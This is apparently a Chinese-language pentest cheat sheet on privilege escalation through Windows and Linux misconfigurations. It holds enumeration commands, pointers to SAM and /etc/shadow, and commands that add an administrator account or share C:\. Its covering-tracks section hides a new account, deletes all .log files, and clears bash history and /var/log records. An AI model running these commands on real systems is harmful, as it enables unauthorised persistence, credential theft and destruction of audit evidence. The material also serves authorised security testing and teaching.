

# 利用配置不当提权
> 与漏洞提权相比更常用的方法, 一般企业环境补丁更新的全部已经安装 

常见:
+ 服务以system权限启动
+ NTFS权限允许普通users修改删除(程序属性安全里面替换对象成自己想替换的程序,可以是木马等)
   

+ root用户运行程序
+ 应用系统的配置文件含敏感信息
+ 应用连接数据库的配置文件含敏感信息
+ 商业信息
+ 系统信息

## 0x01 安全检查
### Windows
#### 权限检查

```
icacls c:\windows\*.exe /save_dir perm /T

其它说明:
ICACLS name /save aclfile [/T] [/C] [/L] [/Q]
    将匹配名称的文件和文件夹的 DACL 存储到 aclfile 中以便将来与
    /restore 一起使用。请注意，未保存 SACL、所有者或完整性标签。

ICACLS directory [/substitute SidOld SidNew [...]] /restore aclfile
                 [/C] [/L] [/Q]
    将存储的 DACL 应用于目录中的文件。

ICACLS name /setowner user [/T] [/C] [/L] [/Q]
    更改所有匹配名称的所有者。该选项不会强制更改所有身份；
    使用 takeown.exe 实用程序可实现该目的。

ICACLS name /findsid Sid [/T] [/C] [/L] [/Q]
    查找包含显式提及 SID 的 ACL 的所有匹配名称。

ICACLS name /verify [/T] [/C] [/L] [/Q]
    查找其 ACL 不规范或长度与 ACE 计数不一致的所有文件。

ICACLS name /reset [/T] [/C] [/L] [/Q]
    为所有匹配文件使用默认继承的 ACL 替换 ACL。

ICACLS name [/grant[:r] Sid:perm[...]]
       [/deny Sid:perm [...]]
       [/remove[:g|:d]] Sid[...]] [/T] [/C] [/L]
       [/setintegritylevel Level:policy[...]]

    /grant[:r] Sid:perm 授予指定的用户访问权限。如果使用 :r，
        这些权限将替换以前授予的所有显式权限。
        如果不使用 :r，这些权限将添加到以前授予的所有显式权限。

    /deny Sid:perm 显式拒绝指定的用户访问权限。
        将为列出的权限添加显式拒绝 ACE，
        并删除所有显式授予的权限中的相同权限。

    /remove[:[g|d]] Sid 删除 ACL 中所有出现的 SID。使用
        :g，将删除授予该 SID 的所有权限。使用
        :d，将删除拒绝该 SID 的所有权限。

    /setintegritylevel [(CI)(OI)] 级别将完整性 ACE 显式添加到所有
        匹配文件。要指定的级别为以下级别之一:
            L[ow]
            M[edium]
            H[igh]
        完整性 ACE 的继承选项可以优先于级别，但只应用于
        目录。

    /inheritance:e|d|r
        e - 启用继承
        d - 禁用继承并复制 ACE
        r - 删除所有继承的 ACE


注意:
Sid 可以采用数字格式或友好的名称格式。如果给定数字格式，
那么请在 SID 的开头添加一个 *。

/T 指示在以该名称指定的目录下的所有匹配文件/目录上
执行此操作。

/C 指示此操作将在所有文件错误上继续进行。仍将显示错误消息。

/L 指示此操作在符号链接本身而不是其目标上执行。

/Q 指示 icacls 应该禁止显示成功消息。

ICACLS 保留 ACE 项的规范顺序:
    显式拒绝
    显式授予
    继承的拒绝
    继承的授予

perm 是权限掩码，可以两种格式之一指定:
简单权限序列:
        N - 无访问权限
        F - 完全访问权限
        M - 修改权限
        RX - 读取和执行权限
        R - 只读权限
        W - 只写权限
        D - 删除权限
在括号中以逗号分隔的特定权限列表:
        DE - 删除
        RC - 读取控制
        WDAC - 写入 DAC
        WO - 写入所有者
        S - 同步
        AS - 访问系统安全性
        MA - 允许的最大值
        GR - 一般性读取
        GW - 一般性写入
        GE - 一般性执行
        GA - 全为一般性
        RD - 读取数据/列出目录
        WD - 写入数据/添加文件
        AD - 附加数据/添加子目录
        REA - 读取扩展属性
        WEA - 写入扩展属性
        X - 执行/遍历
        DC - 删除子项
        RA - 读取属性
        WA - 写入属性
继承权限可以优先于每种格式，但只应用于
目录:
        (OI) - 对象继承
        (CI) - 容器继承
        (IO) - 仅继承
        (NP) - 不传播继承
        (I) - 从父容器继承的权限
```
#### 其它信息收集

```
ipconfig /all 
ipconfig /displaydns
netstat -bnao
netstat -r
net view , net view /domain
net user /domain, net user %username% /domain
net accounts, net share
net group "Domain Controllers" /domain

其它敏感指令:
net localgroup administrators username /add 
 
net user username /active:yes/domain 

net share name$=C:\ /unlimited
```

#### 配置信息收集工具(wmic)

```
# 读取当前系统ip地址和mac地址
wmic nicconfig get ipaddress,macaddress   

# 查看当前登录账号
wmic computersystem get username

# 查看用户登录的信息
wmic netlogin get name,lastlogon

# 查看当前系统的进程
wmic process get caption, executablepath,commandline

# 结束进程
wmic process where name="calc.exe" call terminate

# 提取操作系统serverpack版本
wmic os get name,servicepackmajorversion 

# 查看系统当前安装了哪些软件
wmic product get name,version                                  # 卸载软件不产生任何提示
wmic product where name=“name” call uninstall /nointeractive  

# 获取共享
wmic share get /ALL                   

# 开启远程桌面（支持远程的）
wmic /node:"machinename" path Win32_TerminalServiceSetting where
AllowTSConnections="0" call SetAllowTSConnections "1“

# 查看当前系统日志   
wmic nteventlog get path,filename,writeable 
```

#### 敏感文件
+ SAM 数据库(或%SYSTEMROOT%\repair\SAM , %SYSTEMROOT%\System32\config\RegBack\SAM)
+ 注册表文件 
+ 业务数据库
+ 身份认证数据库
+ 临时文件目录(UserProfile\AppData\Local\Microsoft\Windows\Temporary Internet Files\)


### Linux
#### 权限检查

```
find / -perm 777 -exec ls -l {} \;
```

#### 其它信息收集

```
/etc/resolv.conf 
/etc/passwd
/etc/shadow 
.ssh
The e-mail and data files
业务数据库 ；身份认证服务器数据库
/tmp

whoami
who –a
uname –a
# 现代 Kali 建议使用 ip/ss 替代 ifconfig/netstat
ip a                    # 原 ifconfig -a（ifconfig 已弃用）
iptables -L -n
ss -rn                  # 原 netstat –ar（netstat 已弃用）
ps aux
dpkg -l # 显示安装的软件
```

```
linux 里 /etc/passwd 、/etc/shadow和/etc/group 文件内容解释

一、/etc/passwd 是用户数据库，其中的域给出了用户名、加密口令和用户的其他信息

/etc/passwd文件存放的是用户的信息,由6个分号组成的7个信息,解释如下
(1):用户名。
(2):密码(已经加密)
(3):UID(用户标识),操作系统自己用的
(4):GID组标识。
(5):用户全名或本地帐号
(6):开始目录
(7):登录使用的Shell,就是对登录命令进行解析的工具。

二. /etc/shadow文件中的记录行与/etc/passwd中的一一对应,它由pwconv命令根据/etc/passwd中的数据自动产生。它的文 件格式与/etc/passwd类似,由若干个字段组成,字段之间用“:”隔开。这些字段是:

(1):帐号名称
(2):密码:这里是加密过的,但高手也可以解密的。要主要安全问题(代!符号标识该帐号不能用
来登录)
(3):上次修改密码的日期
(4):密码不可被变更的天数
(5):密码需要被重新变更的天数(99999表示不需要变更)
(6):密码变更前提前几天警告
(7):帐号失效日期
(8):帐号取消日期
(9):保留条目,目前没用

```

## 0x02 隐藏痕迹
### 禁止在登陆界面显示新建账号
> 但系统账号处仍可查看

```
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon\SpecialAccounts\UserList" /v uname /T REG_DWORD /D 0
```
### 清除日志

```
del %WINDIR%\*.log /a/s/q/f
```

### Linux
```
rm .bash_history
history -c 
attr +i .bash_history

删除
/var/log下
auth.log / secure
btmp/wtmp
lastlog / faillog
其他日志和 HIDS 等
```
